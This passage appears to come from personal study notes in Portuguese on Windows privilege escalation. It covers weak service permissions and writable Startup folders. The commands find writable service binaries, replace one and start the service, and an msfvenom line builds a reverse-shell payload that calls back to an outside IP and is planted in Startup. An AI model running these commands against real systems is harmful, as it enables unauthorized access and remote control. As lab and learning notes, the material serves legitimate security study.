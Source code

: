 ```c
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 

```


## Executable Files and Services

- Da pra identificar com PowerUp no `[*] Checking service executable and arguments permissions`. Irá identificar um arquivo 
- Também da pra identificar com `accesschk64.exe -wvu "C:\Program Files\"`
- As vezes terá que rodar `sc queryex type= service` para achar os serviços e depois verificar com o accesschk
- Pode usar o powerup e depois o accesschk pra validar, uma vez que estiver o `Everyone`

```
# Identificar o arquivo
# Copiar o código C acima com o mesmo nome do arquivo, para o diretório encontrado

copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"

sc start filepermsvc
```


## Startup Application

- Não é encontrado pelo powerup, então tem que ver pelo `icacls.exe`
- Da pra identificar com o winpeas
- também com o ``accesschk64.exe -wvuq`

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# Procurar se o usuário tem (F): Full Access

msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
# Colocar na pasta Startups, igual o Autorun

# Também da pra rodar o vbs abaixo no startup para criar um link para um executável. Executar o vbs com cscript para criar o link
```
